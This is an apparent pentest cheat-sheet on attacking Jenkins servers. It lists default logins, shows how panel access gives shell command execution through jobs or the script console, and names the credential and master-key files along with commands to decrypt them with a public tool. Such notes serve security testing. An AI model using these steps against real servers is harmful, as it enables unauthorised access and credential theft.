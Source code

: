 # Jenkins


[Jenkins](https://www.jenkins.io/)  – an open source automation server which enables developers around the world to reliably build, test, and deploy their software.  [Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat. It is used in Automated Build pipelines and CICD.

Default Passwords
```
jenkins jenkins
admin admin
```

## Pwning Jenkins

[pwn-jenkins](https://github.com/gquere/pwn_jenkins) are Notes about attacking Jenkins servers

## Exploitation of Jenkins Panel

With access you can create schduleable jobs that accept shell commands for both Windows and Linux. 

`Dashboard -> Create a job -> Freeform project -> Configure`

May require cronjob schedule syntax even on Windows - `* * * * *` to run every minute.

`/Script` endpoint is script console

## Credential Decryption

Find
```bash
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```

With [Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor

./jenkins-credentials-decryptor \
  -m master.key \
  -s hudson.util.Secret \
  -c config.xml \
  -o json
```


## References

[Jenkins Official ](https://www.jenkins.io/)  
[Wikipedia Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) 
[Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)